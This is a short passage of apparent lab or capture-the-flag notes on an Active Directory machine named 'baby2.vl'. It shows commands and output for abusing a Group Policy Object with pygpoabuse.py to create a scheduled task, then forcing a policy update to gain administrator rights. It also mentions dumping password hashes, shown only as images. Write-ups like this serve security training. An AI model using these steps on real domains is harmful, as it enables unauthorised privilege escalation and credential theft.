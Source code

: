 ![[Pasted image 20240217112801.png]]



now after looking around we see if we can use the GPO 


using: 
```
python3 pygpoabuse.py baby2.vl/gpoadm -gpo-id "6AC1786C-016F-11D2-945F-00C04FB984F9"
Password:
SUCCESS:root:ScheduledTask TASK_6fe96cfb created!
[+] ScheduledTask TASK_6fe96cfb created!

```


we update the GPO 

```
PS C:\users\Amelia.Griffiths\desktop> gpupdate /force
gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.

```

and now we have a user in the administrators group



![[Pasted image 20240217130233.png]]

and we are basically admin

![[Pasted image 20240217130326.png]]

![[Pasted image 20240217130333.png]]


we dump hashes 

![[Pasted image 20240217130446.png]]


done 

![[Pasted image 20240217130532.png]]

